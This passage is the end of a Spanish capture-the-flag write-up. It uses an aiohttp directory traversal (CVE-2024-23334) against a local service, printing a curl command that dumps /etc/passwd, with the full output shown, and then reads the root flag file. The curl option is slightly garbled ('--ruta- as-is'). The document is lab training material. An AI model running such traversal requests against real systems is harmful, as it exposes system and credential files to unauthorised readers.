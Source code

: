     Investigando un poco en internet, encontramos que es vulnerable a <a href="https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/#gsc.tab=0
    ">LFI</a>. Si aplicamos el comando en el usuario Rosa, podemos observar la vulnerabilidad.

    ```python
    curl -s --ruta- as-is http://localhost:8080/assets/../../../../etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
    syslog:x:104:110::/home/syslog:/usr/sbin/nologin
    _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
    landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:110:1::/var/cache/pollinate:/bin/false
    fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
    usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    app:x:1001:1001:,,,:/home/app:/bin/bash
    _laurel:x:997:997::/var/log/laurel:/bin/false

    ```
    Si podemos visualizar el etc/passwd tambine podriamos visualizar la **flag** del root
    
    ```python 
    curl -s --ruta- as-is http://localhost:8080/assets/../../../../root/root.txt
    ```

  # Finalización 
    Espero que hayan aprendido mucho haciendo esta máquina y les haya servido de ayuda mi explicación para poder entender esta **CTF**. Muchas gracias por leer el artículo y no olviden seguirme en <a href="https://github.com/0x832/">GitHub</a>, ya que también iré subiendo herramientas de hacking.
